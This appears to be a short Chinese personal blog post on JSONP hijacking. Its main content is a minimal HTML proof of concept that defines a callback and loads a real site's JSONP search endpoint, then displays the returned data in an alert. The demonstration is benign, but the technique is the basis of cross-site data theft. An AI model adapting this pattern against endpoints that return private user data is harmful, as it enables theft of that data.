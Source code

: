 ```yaml
---
id: 138
title: jsonp劫持 ~~~~
date: 2017-08-28T15:30:11+00:00
author: bfpiaoran
layout: post
categories:
  - 未分类
---
```

javascript渣  搞了n就才明白

要回调是json格式 ~~

<pre class="pure-highlightjs"><code class="">&lt;html&gt;
&lt;title&gt;jsonp&lt;/title&gt;
&lt;head&gt;
&lt;/head&gt;
&lt;script&gt;

function searchJsonCallback(json){
	alert(JSON.stringify(json))

}
&lt;/script&gt;
&lt;script src="http://cgi.music.soso.com/fcgi-bin/fcg_search_xmldata.q?source=10&w=test"&gt;&lt;/script&gt;
&lt;/html&gt;</code></pre>

&nbsp;